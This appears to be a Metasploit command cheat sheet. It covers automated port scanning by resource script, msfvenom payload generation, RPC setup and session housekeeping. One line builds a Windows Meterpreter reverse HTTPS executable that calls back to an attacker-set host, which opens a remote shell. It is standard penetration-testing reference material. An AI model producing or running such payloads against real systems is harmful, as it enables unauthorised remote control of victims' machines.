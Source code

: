 Resource scripts (automation):
```bash
# Create a resource file
cat > auto.rc << 'EOF'
workspace -a quickrun
workspace quickrun
setg LHOST 10.10.14.5
use auxiliary/scanner/portscan/tcp
set RHOSTS 192.168.56.0/24
set PORTS 22,80,445
run
EOF

# Run it at startup
msfconsole -q -r auto.rc
```

msfvenom payload examples:
```bash
# List payloads/encoders
msfvenom -l payloads
msfvenom -l encoders

# Generate a Windows x64 Meterpreter reverse HTTPS executable
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.14.5 LPORT=443 -f exe -o shell.exe

# Generate raw shellcode (C format)
msfvenom -p windows/x64/exec CMD="calc.exe" -f c -v shellcode -o shellcode.h
```

RPC for automation (two options):
```bash
# A) Start RPC daemon
msfrpcd -U msf -P secret -a 127.0.0.1 -p 55553 -S -f

# B) Or load RPC plugin inside msfconsole
msfconsole -q
load msgrpc ServerHost=127.0.0.1 ServerPort=55553 User=msf Pass=secret SSL=true
# ... use a client (Python/Ruby) to connect ...
unload msgrpc
```

Add custom module paths and reload:
```bash
# User module directory (MSF commonly uses ~/.msf4)
mkdir -p ~/.msf4/modules/{exploits,auxiliary,payloads,post}
loadpath ~/.msf4/modules
reload_all
```

Housekeeping:
```bash
jobs -l
jobs -K   # kill all jobs
sessions -l
sessions -K  # kill all sessions
loot
creds
notes
```
